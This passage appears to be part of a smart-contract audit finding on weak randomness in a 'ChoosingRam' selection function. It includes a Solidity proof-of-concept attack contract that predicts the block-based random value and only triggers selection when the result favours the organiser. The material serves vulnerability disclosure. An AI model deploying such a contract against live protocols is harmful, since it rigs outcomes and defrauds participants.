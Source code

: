- The function will keep track of all the timestamps that would produce 0 based on the value of `RamNFT::tokenCounter`
	- A counter of `101` will produce `0` 849 times within the predetermined time constraints of `ChoosingRam::selectRamIfNotSelected`
- Without an attack contract, `RamNFT::organiser` would have to make a precise call of`ChoosingRam::selectRamIfNotSelected()` during one of the returned timestamps

##### Using an attack contract gives `RamNFT::organiser` room for error:
```js
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

interface IChoosingRam {
    function selectRamIfNotSelected() external;
}

contract OrganizerChoosingRam {
    address private immutable owner;
    IChoosingRam choosingRam;

    constructor() {
        owner = msg.sender;
    }

    function setContract(address _chooingRam) public {
        if (msg.sender != owner) {
            revert();
        }
        choosingRam = IChoosingRam(_chooingRam);
    }

    function attack(uint256 myId, uint256 counter) public {
         if (msg.sender != owner) {
            revert();
        }

        bool found = false;
        uint256 random;

        while (!found) {
            random =
            uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao))) % counter;

            if (random == myId) {
                found = true;
            }
        }
        choosingRam.selectRamIfNotSelected();
    }

    function withdraw() public {
        if (msg.sender != owner) {
            revert();
        }

        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        if (!success) {
            revert();
	    }
    }
  
    receive() external payable {}
}
```